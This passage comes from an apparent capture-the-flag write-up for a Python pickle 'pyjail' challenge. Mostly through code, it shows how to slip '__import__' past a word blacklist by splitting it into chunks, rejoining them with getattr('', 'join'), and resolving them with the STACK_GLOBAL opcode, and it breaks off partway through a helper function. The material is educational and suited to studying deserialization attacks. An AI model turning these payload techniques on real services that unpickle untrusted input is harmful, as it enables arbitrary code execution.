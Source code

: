 The first problem we encounter would be the blacklist (which we will tackle later) and whitelisted modules only includes `builtins`. This is a common pyjail starting point, we might be tempted to try to import the module we need using the `__import__` function from the `builtins` module.

```python
pa.push_global('builtins','__import__')
```

But this is where we are truly hindered by the blacklist. We cannot use the word `import`, but we need it to import other more useful modules. Luckily, pickle offers a different op, that allows you to build globals from stack rather than from params.

```python
pa.push_short_binunicode('builtins')
pa.push_short_binunicode('__import__')
pa.build_stack_global()     # equals to    temp=pop();  push_global(pop(), temp)
```

Which means if we are able to you are able to get `__import__` into the stack without triggering the blacklist, then you can import things. For instance, we can split `__import__` into `__imp` and `ort__`, then combine them together. One of two methods probably came to mind, using the `+` operator or using `''.join(args)` function. The original solution uses the `+` operator, which requires importing the `operator` module using the `BuiltinImporter` class from `object.__subclasses__()[120]` by chaining a large number of `getattr` functions. I will showcase the second method brought to my attention by team `SSM2`.

```python
pa.push_global('builtins','getattr')
pa.push_short_binunicode('')
pa.push_short_binunicode('join')
pa.build_tuple2()                   # ('', 'join')
pa.build_reduce()                   # getattr('', 'join') ->  <method join of str obj>
pa.memo_memoize()                   # memoize as 0, for reuse via pa.memo_binget(0)
# pa.pop()              # optional clear stack
```

Using this, we can bypass the blacklist by breaking down any blacklisted words into smaller chunks, then recombining them back together. Eg.

```python
pa.memo_binget(0)           # <method join of str obj>
pa.push_short_binunicode('__imp')
pa.push_short_binunicode('ort__')
pa.build_tuple2()                   # ('__imp','ort__')
pa.build_tuple1()                   # (('__imp','ort__'),)
pa.build_reduce()                   # ''.join(('__imp','ort__')) -> '__import__'
```

For simplicity, lets define some helpers using what we have so far:

```python
mem = 0
joinKey = None
def push_join(pa):
    global joinKey, mem
    if joinKey:
        pa.memo_binget(joinKey)
    else:
        pa.push_global('builtins','getattr')
        pa.push_short_binunicode('')
        pa.push_short_binunicode('join')
        pa.build_tuple2()
        pa.build_reduce()
        pa.memo_memoize()
        joinKey = mem
        mem += 1

def push_word2(pa, w1, w2):
    push_join(pa)
```